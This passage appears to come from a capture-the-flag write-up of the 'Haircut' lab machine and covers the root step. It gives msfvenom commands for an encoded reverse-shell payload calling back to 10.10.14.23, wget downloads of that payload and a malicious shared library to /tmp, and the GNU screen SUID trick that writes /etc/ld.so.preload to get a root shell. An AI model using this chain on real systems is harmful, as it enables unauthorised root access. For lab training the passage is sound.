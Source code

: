 Next, build the new reverse shell payload, cross compile/host the shared library, and start a new listener:

```bash
# create the new payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=9999 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.root.elf
# compile shared library
gcc -fPIC -shared -ldl -o bubba.so bubba.c
# host files
python3 -m http.server 7777
# listen for root shell
nv -nvlp 9999
```

Now download the shared library and new payload to `/tmp` on the target:

```bash
wget http://10.10.14.23:7777/bubba.root.elf -P /tmp/ 
wget http://10.10.14.23:7777/bubba.so -P /tmp/ 
chmod +x /tmp/bubba.root.elf
chmod +x /tmp/bubba.so
```

Next, trigger the vulnerability by creating the file `/etc/ld.so.preload` which links to `/tmp/bubba.so` and then run `screen` again to run `bubba.root.elf` as root from the SUID of `screen`:

```bash
# reset umask
umask 000
# create /etc/ld.so.preload
screen -D -m -L /etc/ld.so.preload echo -ne "\x0a/tmp/bubba.so"
# spawn the child process
screen -ls
```

![screen_vuln](./haircut/screen_vuln.png)

This returns a reverse shell as root!

![root](./haircut/root.png)
